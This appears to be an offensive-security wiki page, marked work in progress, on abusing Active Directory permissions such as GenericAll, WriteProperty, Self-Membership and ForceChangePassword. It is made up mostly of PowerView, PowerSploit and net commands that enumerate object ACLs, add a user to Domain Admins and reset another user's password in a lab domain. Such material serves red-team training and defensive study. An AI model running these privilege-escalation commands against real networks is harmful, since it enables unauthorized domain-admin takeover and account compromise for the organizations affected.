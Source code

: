 # Abusing Active Directory ACLs/ACEs

{% hint style="danger" %}
WIP
{% endhint %}

## Context

Some of the exploitable permissions:

* **GenericAll** - full rights to the object \(add users to a group or reset user's password\)
* **GenericWrite** - update object's attributes \(i.e logon script\)
* **WriteOwner** - change object owner to attacker and have full control over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self \(Self-Membership\)** - ability to add yourself to a group

## Execution

### GenericAll on User

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-17-14.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-23-18.png)

### GenericAll on Group

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### WriteProperty on Group

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-11-11.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-06-32.png)

### Self \(Self-Membership\) on Group

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-23-52.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-25-23.png)

### **ForceChangePassword**

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-30-11.png)

```csharp
# powerview
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-31-52.png)



## References

{% embed url="https://wald0.com/?p=112" %}

